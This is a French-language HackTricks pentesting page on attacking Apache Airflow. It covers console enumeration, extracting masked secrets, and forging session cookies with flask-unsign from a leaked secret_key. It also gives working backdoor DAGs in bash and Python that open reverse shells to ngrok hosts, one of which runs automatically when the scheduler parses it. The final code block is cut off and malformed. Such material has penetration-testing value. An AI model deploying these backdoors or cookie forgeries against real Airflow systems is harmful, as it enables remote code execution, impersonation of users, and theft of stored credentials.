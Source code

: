 # Sécurité Apache Airflow

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

[**Apache Airflow**](https://airflow.apache.org) sert de plateforme pour **orchestrer et planifier des pipelines ou des workflows de données**. Le terme "orchestration" dans le contexte des pipelines de données signifie le processus d'organisation, de coordination et de gestion de workflows de données complexes provenant de différentes sources. Le but principal de ces pipelines de données orchestrés est de fournir des ensembles de données traitées et exploitables. Ces ensembles de données sont largement utilisés par une multitude d'applications, y compris mais sans s'y limiter, des outils d'intelligence d'affaires, des modèles de science des données et d'apprentissage automatique, tous étant fondamentaux pour le fonctionnement des applications de big data.

Essentiellement, Apache Airflow vous permettra de **planifier l'exécution de code lorsque quelque chose** (événement, cron) **se produit**.

## Laboratoire Local

### Docker-Compose

Vous pouvez utiliser le **fichier de configuration docker-compose depuis** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) pour lancer un environnement docker Apache Airflow complet. (Si vous êtes sur MacOS, assurez-vous de donner au moins 6 Go de RAM à la machine virtuelle docker).

### Minikube

Une façon facile de **exécuter Apache Airflow** est de l'exécuter **avec minikube** :
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Configuration d'Airflow

Airflow pourrait stocker des **informations sensibles** dans sa configuration ou vous pouvez trouver des configurations faibles en place :

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC d'Airflow

Avant de commencer à attaquer Airflow, vous devriez comprendre **comment fonctionnent les autorisations** :

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Attaques

### Énumération de la console Web

Si vous avez **accès à la console Web**, vous pourriez être en mesure d'accéder à certaines ou à l'ensemble des informations suivantes :

* **Variables** (Des informations sensibles personnalisées pourraient être stockées ici)
* **Connexions** (Des informations sensibles personnalisées pourraient être stockées ici)
* Accédez à celles-ci dans `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Des informations sensibles comme la **`secret_key`** et les mots de passe pourraient être stockées ici)
* Liste des **utilisateurs et des rôles**
* **Code de chaque DAG** (qui pourrait contenir des informations intéressantes)

### Récupération des valeurs des variables

Les variables peuvent être stockées dans Airflow afin que les **DAGs** puissent **accéder** à leurs valeurs. C'est similaire aux secrets d'autres plateformes. Si vous avez **suffisamment d'autorisations**, vous pouvez y accéder dans l'interface graphique à `http://<airflow>/variable/list/`.\
Par défaut, Airflow affichera la valeur de la variable dans l'interface graphique, cependière, selon [**ceci**](https://marclamberti.com/blog/variables-with-apache-airflow/), il est possible de définir une **liste de variables** dont la **valeur** apparaîtra comme des **astérisques** dans l'**interface graphique**.

![](<../../.gitbook/assets/image (164).png>)

Cependant, ces **valeurs** peuvent toujours être **récupérées** via **CLI** (vous devez avoir accès à la base de données), une **exécution de DAG arbitraire**, une **API** accédant au point de terminaison des variables (l'API doit être activée), et **même l'interface graphique elle-même !**\
Pour accéder à ces valeurs depuis l'interface graphique, il suffit de **sélectionner les variables** que vous souhaitez accéder et de **cliquer sur Actions -> Export**.\
Une autre méthode consiste à effectuer une **attaque par force brute** sur la **valeur masquée** en utilisant le **filtrage de recherche** jusqu'à ce que vous l'obteniez :

![](<../../.gitbook/assets/image (152).png>)

### Élévation de privilèges

Si la configuration **`expose_config`** est définie sur **True**, à partir du **rôle Utilisateur** et **au-dessus** peuvent **lire** la **configuration sur le web**. Dans cette configuration, la **`secret_key`** apparaît, ce qui signifie que tout utilisateur avec cette clé valide peut **créer son propre cookie signé pour se faire passer pour n'importe quel autre compte utilisateur**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Backdoor DAG (RCE dans le worker Airflow)

Si vous avez un **accès en écriture** à l'endroit où les **DAGs sont enregistrés**, vous pouvez simplement **en créer un** qui vous enverra un **shell inversé**.\
Notez que ce shell inversé sera exécuté à l'intérieur d'un **conteneur worker airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Porte dérobée DAG (RCE dans le planificateur Airflow)

Si vous configurez quelque chose à être **exécuté à la racine du code**, au moment de la rédaction de cet article, il sera **exécuté par le planificateur** quelques secondes après l'avoir placé dans le dossier du DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Création de DAG

Si vous parvenez à **compromettre une machine à l'intérieur du cluster DAG**, vous pouvez créer de nouveaux **scripts DAG** dans le dossier `dags/` et ils seront **répliqués dans le reste des machines** à l'intérieur du cluster DAG.

### Injection de Code DAG

Lorsque vous exécutez un DAG à partir de l'interface graphique, vous pouvez **transmettre des arguments**.\
Par conséquent, si le DAG n'est pas correctement codé, il pourrait être **vulnérable à une Injection de Commande.**\
C'est ce qui s'est passé dans ce CVE : [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tout ce que vous devez savoir pour **commencer à rechercher des injections de commandes dans les DAG** est que les **paramètres** sont **accédés** avec le code **`dag_run.conf.get("nom_param")`**.

De plus, la même vulnérabilité pourrait se produire avec les **variables** (notez qu'avec suffisamment de privilèges, vous pourriez **contrôler la valeur des variables** dans l'interface graphique). Les variables sont **accédées avec**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si elles sont utilisées par exemple à l'intérieur d'une commande bash, vous pourriez effectuer une injection de commande.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
